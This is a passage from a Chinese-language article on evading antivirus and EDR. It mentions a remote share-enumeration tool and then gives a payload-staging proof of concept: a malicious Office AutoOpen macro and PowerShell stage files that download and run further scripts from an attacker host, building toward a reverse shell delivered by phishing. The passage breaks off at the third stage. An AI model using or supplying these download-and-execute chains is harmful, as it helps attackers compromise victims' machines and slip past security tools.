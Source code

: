 该工具利用 Win32 API 中的 NetShareEnum 函数远程检索从任何输入端点提供的共享。默认情况下，它会尝试特权 SHARE_INFO_502
访问级别，显示一些额外信息，如磁盘路径、连接数等。如果失败，它会回退到访问级别
SHARE_INFO_1，它仅显示资源名称但任何非特权用户都可以枚举它(除非特定的ACL阻止它)。请随意使用此处提供的工具。  

  * 

    
    
    https://github.com/florylsk/RemoteShareEnum

现在，我们可以像下面这样使用它：  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230621095501.png)  
当然，定制工具可能是一项非常耗时的任务，并且需要有非常深入的 Windows
内部知识，但它有可能击败本文中介绍的所有其他方法。因此，如果其他一切方法都失败了，应该考虑到这一点。也就是说，我仍然认为它更适合 EDR
规避，因为您可以控制并包括您自己选择的 API 调用、断点、顺序、垃圾数据/指令、混淆等。  

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230621095455.png)

 **08  Payload 分段（Staging）**

  
将有效载荷分阶段执行不是新技术，攻击者通常使用它来传播恶意软件，从而逃避初始静态分析。这是因为真正的恶意负载将在稍后阶段被检索和执行，此时静态分析可能没有机会发挥作用。  
  
对于此 PoC，我将展示一种非常简单但有效的方法来分阶段执行反向 shell Payload，例如，使用以下宏创建恶意Office文件:  

    
          *   *   * 
    
    
    
    Sub AutoOpen()Set shell_object = CreateObject("WScript.Shell")shell_object.Exec ("powershell -c IEX(New-Object Net.WebClient).downloadString('http://IP:PORT/stage1.ps1')")End Sub

  
当然，这不会被 AV 静态检测到，因为它只是在执行一个看似良性的命令。  
由于我没有安装 Office，我将通过在 PowerShell 脚本中手动执行上述命令来模拟网络钓鱼过程。  
最后，本节的 PoC 如下：  
stage0.txt（这将是在网络钓鱼宏中执行的命令）

    
    
      
    
    
      * 
    
    
    
    IEX(New-Object Net.WebClient).downloadString("http://172.31.17.142:8080/stage1.txt")

stage1.txt  

    
    
      
    
    
      *   * 
    
    
    
    IEX(New-Object Net.WebClient).downloadString("http://172.31.17.142:8080/ref.txt")IEX(New-Object Net.WebClient).downloadString("http://172.31.17.142:8080/stage2.txt")

  
stage2.txt  
  